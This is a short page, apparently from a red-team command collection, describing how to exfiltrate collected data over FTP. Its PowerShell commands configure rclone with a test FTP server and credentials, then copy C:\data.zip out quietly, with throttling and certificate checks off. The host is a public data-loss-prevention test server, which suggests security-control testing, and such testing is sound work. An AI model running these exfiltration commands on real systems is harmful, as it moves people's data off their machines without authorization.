 # Send Data via FTP

This command sends a collected data (`data.zip`) to the FTP server (`ftp.dlptest.com`). `rclone.exe` is not a built-in binary, so it must exist on a target system.

```powershell
rclone config create ftpserver "ftp" "host" "ftp.dlptest.com" "port" "21" "user" "dlpuser" "pass" "password123"
rclone copy --max-age 2y C:\data.zip ftpserver --bwlimit 2M -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 -P --ftp-no-check-certificate
```